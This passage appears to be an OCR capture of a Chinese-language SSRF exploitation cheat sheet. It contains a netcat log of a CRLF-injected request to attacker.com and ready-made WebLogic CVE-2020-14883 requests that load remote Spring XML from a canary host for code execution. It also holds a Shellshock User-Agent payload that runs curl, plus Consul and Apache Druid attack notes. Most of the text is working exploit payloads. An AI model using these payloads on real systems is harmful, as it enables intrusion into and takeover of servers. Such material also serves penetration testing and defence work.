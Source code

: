 	Listening on [0.0.0.0] (family 0, port 4000)
	Connection from example.com 43111 received!
	POST /exp HTTP/1.11
	X-CLRF: Injected HTTP/1.1
	Content-Type: text/xml; charset=UTF-8
	soapAction: ""
	Content-Length: 418
	User-Agent: Java1.6.0_24
	Host: attacker.com:4000
	Accept: text/html, image/gif, image/jpeg, */*; q=.2
	Connection: Keep-Alive

	<?xml version="1.0" encoding="UTF-8" standalone="yes"?><env:Envelope xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:env="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><env:Header/><env:Body><find_business generic="2.0" xmlns="urn:uddi-org:api_v2"><name>sdf</name></find_business></env:Body></env:Envelope>
	CVE-2020-14883
	Linux
	POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
	Host: vulnerablehost:7001
	Upgrade-Insecure-Requests: 1
	User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:43.0) Gecko/20100101 Firefox/43.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
	Accept-Encoding: gzip, deflate
	Accept-Language: zh-CN,zh;q=0.9
	Connection: close
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 117

	_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://SSRF_CANARY/poc.xml")
	Windows
	POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
	Host: vulnerablehost:7001
	Upgrade-Insecure-Requests: 1
	User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:43.0) Gecko/20100101 Firefox/43.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
	Accept-Encoding: gzip, deflate
	Accept-Language: zh-CN,zh;q=0.9
	Connection: close
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 117

	_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://SSRF_CANARY/poc.xml")
 ###### Hashicorp Consul
  	默认绑定端口：80、443（SSL）、8080
	https://www.kernelpicnic.net/2017/05/29/Pivoting-from-blind-SSRF-to-RCE-with-Hashicorp-Consul.html
 ###### Shellshock
	默认绑定端口：80、443（SSL）、8080
	CGI路径
	https://gist.github.com/infosec-au/009fcbdd5bad16bb6ceb36b838d96be4
	通过User-Agent的 Shellshock
	User-Agent: () { foo;}; echo Content-Type: text/plain ; echo ;  curl SSRF_CANARY
 ###### Apache Druid
  	如果可以查看状态码，请检查以下路径是否返回 200 状态码
	/status/selfDiscovered/status
	/druid/coordinator/v1/leader
	/druid/coordinator/v1/metadata/datasources
	/druid/indexer/v1/taskStatus
	关闭任务，需要猜测任务 ID 或数据源名称
